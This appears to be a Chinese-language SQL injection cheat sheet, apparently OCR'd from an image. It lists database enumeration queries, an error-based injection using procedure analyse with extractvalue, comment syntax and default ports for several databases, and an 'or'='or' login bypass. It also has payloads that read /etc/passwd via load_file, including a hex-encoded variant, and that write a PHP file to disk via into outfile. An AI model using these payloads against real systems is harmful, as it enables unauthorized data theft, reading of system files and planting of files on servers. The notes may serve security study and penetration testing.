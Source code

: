 select schema_name from information_schema.schemata 查询全部数据库
select table_schema,table_name from information_schema.tables 查询全部数据库和表的对应
select column_name from information_schema.columns; 查询全部列
select 列 from xxxx库.xxx表; 查询值

limit 后使用 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1) 这种方式触发 sql 注入，受到 Mysql 版本的限制，其区间在 Mysql 5.1.5 - Mysql5.5 附近。

注释符号：--空格，/* */内联注释，# Mysql–后面要加一个空格或者控制字符要不无法注释
‘a’ ‘b’=‘ab’

### SQLSever
端口号：1433
注释符号：--，/* */注释
‘a’+‘b’=‘ab’

###  Oracle
端口号：1521
注释符号：--，/* */注释
‘a’||‘b’=‘ab’

### PostgreSQL
端口号：5432或者5433
注释符号：--，/* */注释
‘a’||‘b’=‘ab’

### DB2
端口号：5000
SQLite
一种数据库文件，特别小=。=就一个库多个表，可用sqlite或者sqlite2打开

### MongoDB
端口号：27017

## 0x05 SQL攻击手段
### 数据库提权
### 万能密码登陆
ASP站点’or’=‘or’

### 窃取哈希口令
### 数据库Dump
### 读写文件
#### load_file()读取文件操作
前提：
知道文件的绝对路径
能够使用 union 查询
对 web 目录有写的权限
union select 1,load_file('/etc/passwd'),3,4,5#
0x2f6574632f706173737764
union select 1,load_file(0x2f6574632f706173737764),3,4,5#
路径没有加单引号的话必须转换十六进制
要是想省略单引号的话必须转换十六进制
#### into outfile 写入文件操作
前提：
文件名必须是全路径(绝对路径)
用户必须有写文件的权限
没有对单引号'过滤
```
select '<?php phpinfo(); ?>' into outfile 'C:\Windows\tmp\8.php'
```